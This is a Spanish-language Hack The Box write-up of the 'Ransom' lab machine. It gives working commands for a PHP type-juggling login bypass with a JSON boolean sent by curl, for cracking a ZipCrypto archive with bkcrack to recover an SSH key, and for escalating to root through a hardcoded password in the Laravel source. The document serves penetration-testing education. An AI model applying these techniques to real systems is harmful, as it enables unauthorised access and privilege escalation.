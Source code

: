 ```yaml
---
layout: single
title: Ransom - Hack The Box
excerpt: "Bypass de SSRF"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-ransom/ransom1.png
categories:
  - hackthebox
  - writeup
tags:
  - hackthebox
  - Cracking
  - PHP 
---
```


# 10.10.11.153 - Ransom

![](/assets/images/htb-ransom/ransom1.png)

---------------------

# Part 1: Reconocimiento inicial 

Puertos abiertos: 22(ssh), 80(http), 

```console
└─$ whatweb http://10.10.11.153
[302 Found] Apache[2.4.41], Cookies[XSRF-TOKEN,laravel_session] -> [Redirecting to http://10.10.11.153/login]
http://10.10.11.153/login [200 OK] Apache[2.4.41], Bootstrap, Cookies[XSRF-TOKEN,laravel_session], JQuery[1.9.1], Laravel, PasswordField[password], Script[text/javascript]
```

Me sale un campo para meter un login, me piden solo una contraseña:  
```GET http://10.10.11.153/api/login?password=``` Si pones una mala "Invalid Password"

```console
└─$ wfuzz -c -t 200 -w /usr/share/wordlists/rockyou.txt  "http://10.10.11.153/api/login?password=FUZZ"
000002150:   429        36 L     125 W      6625 Ch     "amazing"
```
En seguida el fuzzing nos cancelan

```console
└─$ wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.11.153/FUZZ
000000040:   200        172 L    372 W      6104 Ch     "login"
000000052:   500        217 L    17833 W    599984 Ch   "register"
000000537:   301        9 L      28 W       310 Ch      "css"
000000940:   301        9 L      28 W       309 Ch      "js"
└─$ wfuzz -c --hc=400 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.10.10.11.153" -u http://10.10.11.153/ -t 100
```
----------------------------
# Part 2: PHP - Type Juggling

![](/assets/images/htb-ransom/ransom2.PNG)

El panel de login es 10.10.11.154/login, pero la peticion se pasa a /api/login. Las apis son una capa mas profunda de la web y que está oculta al usuario ya que 
están pensadas para los programas y la parte más técnica, al ser algo oculto no suele estar tan protegido.   

En algunos casos un /login puede estar protegido antes ataques como SQLi o Type Juggling mientras que la api no.  
En este caso pasa eso, teneos laravel, que trabaja con PHP, es vulnerable a php Type juggling:  
```php
php > if ("contraseña"=="contraseña") { echo "Correcto"; } else { echo "Incorrecto";}
Correcto

Se puede saltar con el valor booleano "true":
php > if ("contraseña"==true) { echo "Correcto"; } else { echo "Incorrecto";}
Correcto

# Una manera de securizar esto es con un triple "="
php > if ("cucuxii"===true) { echo "Correcto"; } else { echo "Incorrecto";}
Incorrecto
```
Si ponemos en el navegador "true" no nos lo toma de manera correcta. Si miramos por el burpsuite, vemos que la peticion es a ```GET a /api/login?password="true"```  
Lo primero esque ya es un poco raro mandar una contraseña con GET (datos en la url). SI cambiamos a POST dice que no admite el metodo.

![](/assets/images/htb-ransom/ransom3.PNG)
![](/assets/images/htb-ransom/ransom4.PNG)

En cambio si mandamos un GET como si fuera un post o sea ```POST a /api/login  data=password="true"``` nos lo  pilla pero nos dice que faltan el campo contraseña.
Cuando mandas algo pero se queja de que no los has mandado es porque no es el formato que quiere, por lo que hay que mandarlo como json:  
  
La peticion sería asi (vemos que true se manda no como string sino como booleando (la diferencia son las ""))  
Si no disponemos de un entorno de pentesting avanzado con programas como burpsuite, se puede hacer con curl:

```console
└─$ curl -i http://10.10.11.153
# Para pillar las cookies

└─$ curl -i -s -k -L -X GET -H 'Content-Type: application/json'  \
--cookie 'XSRF-TOKEN=eyJpdiI6Img4MWhKVFRreV...; laravel_session=eyJpdiI6IlZCdXcz...' \
--data-binary $'{\"password\":true}' http://10.10.11.153/api/login
```
![](/assets/images/htb-ransom/ransom5.PNG)

---------------------
# Parte 3: Crackeando un Zip

Una vez hecho esto, podemos visitar 10.10.11.153/ sin que nos redirija a login.  
Podemos bajarnos un zip pero está protegido con contraseña:  
```console
└─$ unzip uploaded-file-3422.zip
Archive:  uploaded-file-3422.zip
[uploaded-file-3422.zip] .bash_logout password:
```
Jhon the ripper tiene herramientas para romper muchos tipos de archivos:  
```console
└─$ locate 2john | grep "zip"
/usr/sbin/zip2john
└─$ zip2john uploaded-file-3422.zip > hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt
# No hay suerte
```

```console
└─$ 7z l uploaded-file-3422.zip
# Vemos que es el directorio de root pero comprimido, tenemos entre otros una id_rsa

└─$ 7z l uploaded-file-3422.zip -slt 
# Información tecnica dice que el metodo de encriptacion es ZipCrypto Deflate
```
Si buscas ```cracking zipcrypto deflate``` encontrarás una herramienta llamada [bkrack](https://github.com/kimci86/bkcrack) 

La herramienta bcrack nos pide que le demos un archivo que se parezca mucho a uno de los del zip encriptado.  
En concreto sería ```/home/cucuxii/.bash_logout```

```console
└─$ git clone https://github.com/kimci86/bkcrack
└─$ cd bkcrack
└─$ cmake -S . -B build -DCMAKE_INSTALL_PREFIX=install
└─$ cmake --build build --config Release
└─$ cmake --build build --config Release --target install

└─$ cp ~/.bash_logout ./bash_logout
└─$ zip comprimido.zip bash_logout
└─$ cp ~/Maquinas/htb/Ransom/uploaded-file-3422.zip .
└─$ ./bkcrack -C uploaded-file-3422.zip -c ".bash_logout" -P "comprimido.zip" -p "bash_logout"
7b549874 ebc25ec5 7e465e18

└─$ ./bkcrack -C ./uploaded-file-3422.zip -k 7b549874 ebc25ec5 7e465e18 -U nuevo.zip contraseña
└─$ unzip nuevo.zip

└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa root@10.10.11.153
root@10.10.11.153's password:

└─$ cat authorized_keys
ssh-rsa AAAAB3NzaC1yc2EA...13N6/M= htb@ransom
└─$ ssh -i id_rsa htb@10.10.11.153
```
------------------------------
# Parte 4: Escalando privilegios

Entramos con un usaurio de bajos privilegios:  
- Grupos: groups=1000(htb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)  
- Procesos: /usr/lib/udisks2/udisksd  
- Existe el archivo de configuracion de apache: /etc/apache2/sites-enabled/000-default.conf  

Al ser apache el archivo de configuracion 000-default:  
```console
htb@ransom:/tmp$ cat /etc/apache2/sites-enabled/000-default.conf
<VirtualHost *:80>
	ServerAdmin webmaster@localhost
	DocumentRoot /srv/prod/public
htb@ransom:/srv/prod$ ls public/
# Codigo fuente:
css  favicon.ico  fonts  index.php  js  robots.txt  scss  uploaded-file-3422.zip  user.txt
htb@ransom:/srv/prod$ ls ../
# Mas codigo fuente del server
README.md  artisan    composer.json  config    package.json  public     routes      storage  vendor
app        bootstrap  composer.lock  database  phpunit.xml   resources  server.php  tests    webpack.mix.js
htb@ransom:/srv/prod$ grep -riE "password" 2>/dev/null
# Demasiadas cosas, probaremos a buscar de carpeta en carpeta
htb@ransom:/srv/prod/app$ grep -riE "password" 2>/dev/null
Http/Controllers/AuthController.php:        if ($request->get('password') == "UHC-March-Global-PW!") {

htb@ransom:/srv/prod/app$ su root
Password: UHC-March-Global-PW!
root@ransom:/srv/prod/app# whoami
root
```

---------------------------
# Extra: Analizando bckrack

Mirando la documentación del repo pone que:  
- Está utilizando el ataque "Biham and Kocher's"    
- Los zips se suelen encriptar con el cifrado simetrico (una sola llave) basado en contraseña o "PKWARE/Zipcrypto"  

Zipcrypto genera una cadena de bits random, en plan "23$(¡.d" que se XORrea con el contenido de una entrada en texto plano para crear un texto cifrado  
La operacion XOR lo que hace es pasar todos los caracteres a binario y los compara de tal manera que si los bits son iguales da 0 y si son distintos 1:
```
Cipher ->    0110101        Cipher    ->  0110101         Decipher  ->  1101001
key    ->    1011100        Decipher  ->  1101001         Key       ->  1011100
             -------                      --------                      --------
Decipher ->  1101001        Key       ->  1011100         Cipher    ->  0110101 
```
El texto cifrado de 32 bits se inicia con la contraseña y se va descrifrando con el "Biham and Kocher's" 
Este requiere que tengamos un texto de mas de 12 bytes que sea igual que el cifrado para sacar el patron de cifrado que sirve para romperlo todo.



